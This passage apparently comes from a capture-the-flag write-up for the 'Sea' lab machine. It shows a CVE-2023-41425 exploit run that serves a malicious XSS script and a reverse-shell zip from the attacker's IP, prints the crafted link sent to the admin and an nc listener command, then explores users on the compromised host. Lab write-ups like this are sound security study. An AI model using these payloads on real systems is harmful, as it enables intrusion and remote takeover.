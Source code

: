 And we are on :rocket:
```bash
./CVE-2023-41425 http://sea.htb/index.php?page=LoginURL 10.10.14.17 4444
[+] Preparing to download the reverse shell zip file from: http://10.10.14.17:8000/main.zip
[+] Reverse shell downloaded and saved as rev.php
[+] Updating rev.php with provided IP: 10.10.14.17 and Port: 4444
[+] rev.php updated with the correct IP and Port.
[+] Creating ZIP file with rev.php...
[+] main.zip created successfully.
[+] File created: xss.js
[+] Setting up reverse shell listener:
Use the following command in your terminal: nc -nvlp 4444
[+] Send the following malicious link to the admin:
http://sea.htb/index.php?page=LoginURL"></form><script+src="http://10.10.14.17:8000/xss.js"></script><form+action="
Waiting for the admin to trigger the payload.
[+] Port 8000 is available.
[+] Starting a simple HTTP server to serve the XSS payload...
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.11.28 - - [23/Apr/2025 07:44:39] "GET /xss.js HTTP/1.1" 200 -
10.10.11.28 - - [23/Apr/2025 07:44:49] "GET /main.zip HTTP/1.1" 200 -
10.10.11.28 - - [23/Apr/2025 07:44:49] "GET /main.zip HTTP/1.1" 200 -
10.10.11.28 - - [23/Apr/2025 07:44:49] "GET /main.zip HTTP/1.1" 200 -
10.10.11.28 - - [23/Apr/2025 07:44:49] "GET /main.zip HTTP/1.1" 200 -
```
![picture alt](assets/Reverse_Shell.png)

## Exploration
While exploring the system we found about 2 users **amay** and **geo**. We can see the user flag on **/home/amay/user.txt** but we don't have the required privileges.
Searching the file system further we find a database.js file in the **/var/www/sea/data** directory.
